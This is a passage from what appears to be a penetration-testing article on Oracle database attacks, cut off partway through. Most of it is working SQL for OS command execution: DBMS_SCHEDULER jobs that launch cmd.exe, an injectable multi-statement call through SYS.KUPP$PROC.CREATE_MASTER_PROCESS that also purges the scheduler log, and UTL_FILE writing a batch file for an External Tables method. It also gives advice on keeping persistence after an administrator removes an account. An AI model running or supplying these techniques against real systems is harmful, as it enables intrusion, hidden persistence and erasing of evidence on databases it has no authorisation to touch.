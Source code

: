 ```sql
exec DBMS_SCHEDULER.create_program('RDS2008','EXECUTABLE','c:\ WINDOWS\system32\cmd.exe /c echo 0wned &gt;&gt; c:\rds3.txt',0,TRUE);
exec DBMS_SCHEDULER.create_job(job_name =&gt; 'RDS2008JOB',program_name =&gt; 'RDS2008',start_date =&gt; NULL,repeat_interval =&gt; NULL,end_date =&gt; NULL,enabled =&gt; TRUE,auto_drop =&gt; TRUE);
```

This will create and run a job for executing your command. And here’s an option for calling the Scheduler from another procedure – `SYS.KUPP$PROC.CREATE_MASTER_PROCESS`, which is of interest to us, primarily, because it allows you to embed multi-statement queries, that is, those consisting of multiple sub-queries. Theoretically, you can run such query even in case of injection into a web application.

```sql
select SYS.KUPP$PROC.CREATE_MASTER_PROCESS('DBMS_SCHEDULER.create_program(''xxx'',''EXECUTABLE'',''cmd.exe /c echo qqq&gt;&gt;C:/scchh'',0,TRUE); DBMS_SCHEDULER.create_job(job_name=&gt;''jobx'',program_name=&gt;''xxx'',start_date=&gt;NULL,repeat_interval=&gt;NULL,end_date=&gt;NULL,enabled=&gt;TRUE,auto_drop=&gt;TRUE);dbms_lock.sleep(1);dbms_scheduler.drop_program(program_name=&gt;''xxx'');dbms_scheduler.purge_log;') from dual
```

Note that, when you use the Scheduler, you can run this job more than once and do it with some frequency. As a result, this will help you get a foothold in the tested system, because, even if the administrator deletes the user from OS, this job, which is regularly running in the system, will bring him or her back to life.

<h3>RCE: External Tables</h3>

As the last method for achieving the execution of OS commands, I would like to mention the use of External Tables. This method will help you later download files from the server. You will need the following privileges:

```bash
UTL_FILE;
CREATE TABLE;
a directory reserved for the user.
```

Let’s remember that the access to `UTL_FILE` package is by default provided to all accounts with `CONNECT` role. 

Step one: Check the issued directories with the following query:

```sql
SELECT TABLE_NAME FROM ALL_TAB_PRIVS WHERE TABLE_NAME IN
(SELECT OBJECT_NAME FROM ALL_OBJECTS WHERE OBJECT_TYPE='DIRECTORY')
and privilege='EXECUTE' ORDER BY GRANTEE;
 
TABLE_NAME
------------------------------
ALICE_DIR
```

Step two: Create an executable batch file with desired command:

```sql
declare
 f utl_file.file_type;
 s varchar2(200) := 'echo KOKOKO &gt;&gt; C:/pwned';
begin
 f := utl_file.fopen('ALICE_DIR','test.bat','W');
 utl_file.put_line(f,s);
 utl_file.fclose(f);
end;
/
```
